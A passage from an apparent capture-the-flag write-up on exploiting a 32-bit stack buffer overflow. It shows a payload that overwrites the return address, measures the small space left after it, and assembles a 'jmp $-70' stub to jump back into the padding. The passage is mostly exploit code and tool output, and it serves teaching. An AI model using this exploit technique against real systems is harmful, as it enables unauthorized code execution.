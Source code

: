 Given 66 bytes of junk and the return address, that leaves only 10 bytes
to work with. I can show this by changing the payload to have 100 Cs:



    payload = b"A"*66 + p32(0x7190239f) + b"\xCC"*100



This time at the crash, EIP is still one byte into the INTs, but there's
only 10 bytes of CC:

![](/img/image-20220203215507285.png)

#### Getting a Bit More Space

Looking up the stack a bit, there's 66 bytes of space I can use that
I've currently filled with "A". All I need is less than 10 bytes of
shellcode that jumps back. I'll write a short ASM program with just that
instruction:

    bits 32
    jmp $-70

Now I'll compile that and look at the bytes:



    oxdf@hacky$ nasm -o sc sc.asm; xxd sc
    00000000: ebb8 



Alternatively, there's a MSF tool called `metasm_shell.rb` that will
allow me to type in asm, and get the bytes back:



    metasm > jmp $-70
    "\xeb\xb8"


